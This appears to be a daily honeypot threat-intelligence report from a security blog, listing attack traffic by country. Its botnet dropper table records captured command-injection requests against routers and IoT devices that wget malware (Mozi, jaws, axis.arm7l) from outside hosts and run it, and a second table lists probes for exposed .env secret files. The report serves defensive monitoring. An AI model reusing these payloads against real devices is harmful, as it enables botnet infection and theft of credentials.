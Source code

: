 ```yaml
---
title: "Report: 2025-08-16 "
date: 2025-08-16
desciption: "Report: 2025-08-16" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-16 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 14 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 2202 requests were recorded during the day, originating from 3 different countries, with a peak of 1759 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| SG               | Germany            |
| SG               | Germany            |
| US               | Germany            |
| DE               | Germany            |
| US               | Germany            |
| GB               | Germany            |
| GB               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                     |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 123.13.107.189 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://123.13.107.189:48235/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                               |
| 8.219.136.157  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                |
| 141.98.11.44   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20axis.arm7l%3B%20wget%20http%3A%2F%2F198.251.89.190%2Faxe%2Faxis.arm7l%3B%20chmod%20%2Bx%20axis.arm7l%3B%20.%2Faxis.arm7l%20tbk HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                      |
|----:|----------------------:|:-----------------------------|
| 704 |                     1 | GET /env/config.log HTTP/1.1 |
| 724 |                     1 | GET /docs/.env.save HTTP/1.1 |
| 725 |                     1 | GET /docs/.env.smtp HTTP/1.1 |
| 726 |                     1 | GET /download/.env~ HTTP/1.1 |
| 727 |                     1 | GET /django/env.php HTTP/1.1 |
| 728 |                     1 | GET /django/env.yml HTTP/1.1 |
| 730 |                     1 | GET /docs/.env.test HTTP/1.1 |
| 903 |                     1 | GET /core/.env.save HTTP/1.1 |
| 905 |                     1 | GET /docs/.env.conf HTTP/1.1 |
| 907 |                     1 | GET /core/.env.smtp HTTP/1.1 |
| 908 |                     1 | GET /core/.env.test HTTP/1.1 |
| 909 |                     1 | GET /mail/.env.conf HTTP/1.1 |
| 910 |                     1 | GET /docs/.env.prod HTTP/1.1 |
| 911 |                     1 | GET /logs/temp/.env HTTP/1.1 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  1759 | GB                 |
|  1 |                   198 | US                 |
|  2 |                    73 | DE                 |
|  3 |                    34 | IR                 |
|  4 |                    21 | BG                 |
|  5 |                    14 | SC                 |
|  6 |                    13 | LT                 |
|  7 |                    12 | CA                 |
|  8 |                    11 | ZA                 |
|  9 |                     9 | PL                 |
| 10 |                     9 | RO                 |
| 11 |                     7 | NL                 |
| 12 |                     6 | SG                 |
| 13 |                     6 | UA                 |
| 14 |                     4 | TR                 |
| 15 |                     4 | BR                 |
| 16 |                     4 | PT                 |
| 17 |                     4 | IN                 |
| 18 |                     3 | JP                 |
| 19 |                     2 | VN                 |
| 20 |                     2 | RU                 |
| 21 |                     2 | CN                 |
| 22 |                     2 | BE                 |
| 23 |                     1 | AU                 |
| 24 |                     1 | MC                 |
| 25 |                     1 | KR                 |
